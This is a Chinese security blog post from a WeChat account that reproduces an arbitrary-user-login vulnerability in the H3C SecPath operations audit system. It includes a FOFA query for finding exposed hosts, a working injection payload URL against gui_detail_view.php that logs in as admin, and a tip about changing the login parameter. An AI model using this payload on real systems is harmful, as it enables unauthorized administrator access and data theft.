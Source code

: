 #  H3C SecPath运维审计系统 任意用户登录漏洞

融云安全-sm  [ Hack All ](javascript:void\(0\);)

**Hack All** ![]()

微信号 PTIOVHA

功能介绍 专注于网络安全，渗透测试，文章和工具分享，包括但不限于Web安全、物联网安全、车联网安全，我们的目标是Hack All！

____

___发表于_

收录于合集

#漏洞复现 13 个

#漏洞库 25 个

**免责声明**

本公众号仅用于技术交流与学习，利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号只是知识的搬运工，取之于民用之于民。

 **0x01  阅读须知**

**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 **0x02 漏洞描述**

H3C
SecPath运维审计系统是基于用户现阶段面临的运维难题提出的一款运维风险管控产品。借助身份认证、权限控制、操作审计等功能，从操作层面解决了企业现存的IT内控与管理问题，使运维操作管理进入安全与便利相结合的阶段，帮助客户提高整体运维安全水平，使运维操作管理过程变得更加简单、安全、有效。H3C
SecPath运维审计系统存在任意用户登录漏洞，攻击者通过漏洞可以未授权登录系统管理员，导致敏感信息被窃取等问题。![](https://gitee.com/fuli009/images/raw/master/public/20230619143638.png)

 **0x03 漏洞复现**

 **fofa** **：** "H3C SecPath运维审计系统"

1.执行POC可未授权登录系统

  * 

    
    
    https://{{Hostname}}/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

![](https://gitee.com/fuli009/images/raw/master/public/20230619143639.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230619143640.png)

2.看到Poc是不是有点眼熟，这不是和某治堡垒机任意用户登录一样吗？不得不说很多产品某些功能代码重复率很高啊，深入挖掘发现出现下面错误说明漏洞存在，只是登录用户名错误，怎么绕过你懂得

![](https://gitee.com/fuli009/images/raw/master/public/20230619143641.png)

3.修改login参数值为合法用户名即可未授权进入系统，xray漏洞扫描脚本星球自提

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

